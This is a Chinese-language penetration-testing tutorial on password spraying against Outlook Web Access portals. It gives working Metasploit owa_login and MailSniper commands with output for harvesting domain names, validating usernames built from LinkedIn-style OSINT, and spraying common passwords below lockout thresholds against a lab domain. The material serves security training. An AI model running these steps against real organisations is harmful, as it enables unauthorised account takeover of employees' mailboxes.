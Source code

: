 ## Password spraying
下文译作密码碰撞

###常见手法
密码碰撞是一种使用使用有效的用户名和弱口令进行排列组合尝试登录的技术，目的是获得有效的身份凭证。

这种技术在从某种程度上来说并不可靠的，一不小心执行就会导致自己处于暴露的边缘。在碰撞之前，我们应该应该摸清楚目标的各个规则，如错误锁定时间次数等，以一种可控的方式尝试密码碰撞，并跨多个用户以避免锁定。也就是说密码碰撞实际上就属于暴力破解。

这项技术的使用是有前提的。不管它是在外网还是在内网执行，道理都是一样的。绝大部分需要的注意的东西都可以轻松试出了。

###前提准备
* 可碰撞的服务
* 域名/ip
* 用户名或邮箱

###常用工具
* [DomainPasswordSpray​](https://github.com/dafthack/DomainPasswordSpray)
* [MailSniper​](https://github.com/dafthack/MailSniper)
* [auxiliary/scanner/http/owa_login​](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login)
* [auxiliary/scanner/http/owa_ews_login​](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login)

-------

###外网
现如今绝大部分企业都为自己的员工提供了企业邮箱，所以当我们在外网发起的攻击时就可以把这作为一个攻击入口。下面以OutLook(下面简称OWA)）为例说明:
![](https://raw.githubusercontent.com/crazywa1ker/DarthSidious-Chinese/master/INITIAL%20ACCESS/images/owa.png)

如图，如果我们可以尝试用普通密码验证时找到其规律。我们就可以尝试使用公共密码进行身份验证。但是要注意在碰撞的时候不要超过登录失败后账户锁定的阈值。很多企业门户在连续尝试五到十次之后就账户就会被锁定了，有些甚至只有三次机会。锁定的时间通常为30分钟。在碰撞时一定要谨慎，具体情况得具体分析。

**第一步：寻找可碰撞的服务**
OWA门户通常会出现在`mail.testlab.local` ,`testlab.local/owa`。任何ADFS集成门户在理论上都可以碰撞，因为它们的后台都是一样的AD身份验证。需要注意有些工具(如MailSniper)是针对攻击邮件门户而开发的，因此如果不是OWA门户，那么工具的部分功能并没有什么用。子域枚举工具对寻找此类门户的地址非常有用。还有一种思路是扫web目录，如testlab.local/RDweb这样的。

**第二步：获取域名**
Metasploit的owa—login模块不仅可以用于暴力破解,还可以用来寻找有漏洞的域。对用户名进行碰撞或许能够帮助你寻找到一个有效的用户名。Metasploit使用NTLM响应来识别域名。有些管理员会把域名做成logo一类的放到OWA的页面上,碰上就是再好不过的了。

```
use auxiliary/scanner/http/owa_login
set rhost <rhost>
set username <username>
set password <password>
exploit
​
[+] Found target domain: TESTLAB
```
除此之外，也可以让MailSniper根据响应时间来获取域名。

```
Invoke-DomainHarvestOWA -ExchHostname testlab.local -DomainList c:\temp\domainlist.txt -OutFile potential-domains.txt
​
[*] Harvesting Domain Name from the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid Domain! Domain:TESTLAB
```

**第三步：获取有效的用户名或者邮箱**
前面我们已经获取到了域名, 现在我们可以尝试一下枚举用户名。如果我们没找到相关用户名或邮箱,那就需要想办法获取到,比如社工库,Google,baidu,Linkedin,钟馗之眼等等。此外我们也可以尝试一下直接暴力枚举用户名,当时成功的几率通常很小。

假设这种情况,我们在Linkedin上获取到一个邮箱账号并不为奇,那么可以顺便检查一下**theHarvester**.如果他的名字是`Bill Long Money`,那么他的邮箱就很可能是`bill.money@testlab.biz`。同理如果你在百度贴吧搜索到一个QQ号,那么他的邮箱就是`xxxx@qq.com` 。

域用户名的设置通常有很多可能的规律，假设名字是:`Bill Long Money`那么用户名可能是：
* 名字的首字母+姓氏= bmoney
* 名字的字母缩写和姓氏(也可以包括中间名)= bm或blm
* 前缀(通常是字符)+名首字母+姓氏= a-bmoney
* 全名= billmoney(比较少见)

我们可以通过对不同的信息进行排列组合形成一个用户名字典。`owa_login`可以验证出用户名是否有效。比如我们试一下`bmoney`这个用户名。

```
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit
​
[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

如同提示`FAILED LOGIN, BUT USERNAME IS VALID`所说，虽让登录失败了，但是用户名是存在的嘛。

同样我们也可以使用Mailsniper进行类似的操作。

```
Invoke-UsernameHarvestOWA -ExchHostname testlab.corp.local -UserList c:\temp\userlist.txt -Domain TESTLAB -OutFile potential-usernames.txt
​
[*] Now spraying the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid! User:TESTLAB\bmoney
```

**第四步：开始碰撞**
现在有效的域和用户名都有了，我门就可以开始进行碰撞了。如前面所提醒的一样，为了防止账户被锁定。那些用户名碰撞过，确切时间，尝试了哪些密码，以及每个用户尝试了多少次等都很重要，我们需要控制好线程。

```
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit
​
[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

同理也可以使用Mailsniper进行该的操作，用户名我们放在`userlist.txt`文件里。

```
Invoke-PasswordSprayOWA -ExchHostname testlab.local -userlist .\userlist.txt -password winter2018
​
[*] Now spraying the OWA portal at https://testlab.local/owa/
​
[*] SUCCESS! User:bmoney:winter2018
```

很奈斯，碰撞到了有效的密码。

-------
###内网
碰撞不仅仅是您可以在外部找到域用户的事。如果您有内部访问权限，但不知道域用户，或者在没有其他操作权限时获得更高权限的用户的凭据，这可能非常有用。

再会！




